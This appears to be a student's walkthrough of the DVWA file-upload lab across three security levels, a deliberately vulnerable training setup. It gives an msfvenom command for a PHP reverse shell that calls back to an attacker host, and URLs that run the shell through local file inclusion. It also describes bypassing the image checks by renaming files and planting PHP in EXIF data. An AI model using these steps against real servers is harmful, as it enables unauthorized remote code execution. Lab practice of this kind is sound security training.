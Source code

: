 ## Low

- For low I tried meterpeter shell for php, both staged and unstaged, it didn't work but then I tried simple reverse_shell and it worked.
- `msfvenom -p php/reverse_php LHOST=192.168.0.111 LPORT=4444 -f raw > shell_2.php`
- I was able to upload the shell_2.php without any issue, and got it executed by a file inclusion vulnerability at 
	- `http://192.168.0.105/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/shell_2.php`


## Medium

- Since this time a .jpeg or .png extension was required, i renamed the same shell to `shell_2.php.jpeg`. And uploaded this bad boy.
- And since for medium level security file inclusion vulnerability has some security measures in place but it is still vulnerable to `file://` wrapper. I used that.
	- `http://192.168.0.105/dvwa/vulnerabilities/fi/?page=file://C:/xampp/htdocs/dvwa/hackable/uploads/shell_2.php.jpeg`


## High

- Here the upload functionality checks whether the upload is truly an image by using `getimagesize()` functionality. So we'll need to embed our shell code into an actual image file. Things got a bit tricky here. But eventually it can be explained in this way..
	- You'll need to embed shell code in image's exif data. It's easy to embed a small phpcode to verify if it will work before hand. Let's say image is white.png. So...
		- `exiftool white.png -Comment="<?php phpinfo(); ?>"` will do the job. 
		- Then if we upload this image and execute the using file inclusion vulnerability.
		- `http://192.168.0.105/dvwa/vulnerabilities/fi/?page=file://C:/xampp/htdocs/dvwa/hackable/uploads/white.png` if this shows us phpinfo we can proceed ahead with embedding shell code.
	- Now to embed shell code via just command line was a bit tricky for me atleast so i automated it. Here I generate the same payload as before and then embed it at byte level. 
	- Also had to do some evasion techniques by php-commenting out problematic part.